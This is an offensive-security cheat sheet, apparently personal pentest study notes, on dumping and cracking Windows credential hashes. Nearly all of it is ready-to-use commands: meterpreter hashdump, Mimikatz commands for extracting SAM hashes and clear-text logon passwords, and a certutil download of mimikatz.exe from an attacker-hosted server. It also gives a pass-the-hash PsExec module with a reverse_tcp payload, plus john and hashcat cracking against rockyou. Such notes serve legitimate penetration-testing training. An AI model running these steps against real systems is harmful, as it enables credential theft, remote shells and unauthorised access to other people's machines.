 # Windows - Dump/Crack Hashes

## Dumping

Required elevated privilege

```bash
# meterpreter tool
hashdump
```

```bash
# windows local password file
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml 
```

### Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**

{% code title="Metasploit module" %}
```bash
# load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

# dump from SAM db
lsa_dump_sam
```
{% endcode %}

{% code title="Metasploit" %}
```bash
use post/windows/gather/hashdump
set SESSION
run
```
{% endcode %}

{% code title="Shell" %}
```bash
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}

{% code title="mimikatz.exe" %}
```bash
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}

***

### Pass-The-Hash Attack

**PTH attack** is a exploitation technique that involves capturing or harvesting NTML hashes or clear-text passwords and utilize them **to auth** with the target legitimately.

We can use the **PsExec** module to legitimately authenticate with the target system **via SMB**.

```bash
# with the high privilege account we can get a all hash stored in the target
hashdump

# with the NTML hash we can try access in other account with PsExec module
use exploit/windows/smb/psexec
set RHOSTS
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser USER
set SMBPass NTML_HASH
exploit
```

NTLS Hash: Administrator:500:_aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d_:::

***

## Cracking

<pre class="language-bash"><code class="lang-bash"><strong># unzip rockyou.txt
</strong><strong>gzip -d rockyou.txt.gz
</strong>
# copy the result of hashdump in a file
<strong># use john to crack
</strong>john --format=NT file.txt --wordlist=/PATH/TO/rockyou.txt

<strong># use hashcat to crack
</strong>## check the code of specific format
hashcat --help
## crack NTML
hashcat -a 3 -m 1000 file.txt /PATH/TO/rockyou.txt
# -m: hash format 
# -a: 
</code></pre>

{% code title="Metasploit" %}
```bash
use auxiliary/analyze/crack_windows
run
```
{% endcode %}
